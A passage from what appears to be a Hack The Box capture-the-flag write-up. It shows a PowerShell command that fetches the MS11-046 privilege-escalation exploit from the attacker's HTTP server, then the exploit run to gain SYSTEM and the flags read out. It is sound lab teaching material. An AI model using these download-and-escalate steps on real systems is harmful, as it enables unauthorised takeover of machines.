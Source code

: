 ```bash
┌─[_]─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]
└──_ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Get payload using Powershell command 

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5:8000/MS11-046.exe', 'c:\Users\Public\Downloads\MS11-046.exe')"
```

```bash
Directory of C:\Users\Public\Downloads

16/06/2022  05:28     <DIR>          .
16/06/2022  05:28     <DIR>          ..
16/06/2022  05:28            250.562 MS11-046.exe
               1 File(s)        250.562 bytes
               2 Dir(s)   4.697.042.944 bytes free

C:\Users\Public\Downloads>MS11-046.exe
MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

The payload works fine, We got NT Authority Priviledge, flags are located   

```bash
Directory of c:\Users\babis\Desktop

11/02/2022  04:54     <DIR>          .
11/02/2022  04:54     <DIR>          ..
16/06/2022  03:28                 34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.697.018.368 bytes free

c:\Users\babis\Desktop>type user.txt
type user.txt
3acb9fc4e****************

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users\Administrator\Desktop

14/01/2021  12:42     <DIR>          .
14/01/2021  12:42     <DIR>          ..
16/06/2022  03:28                 34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.697.018.368 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
1d89b726**********************
c:\Users\Administrator\Desktop>
```
{{< notice success "we have successfully owned " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}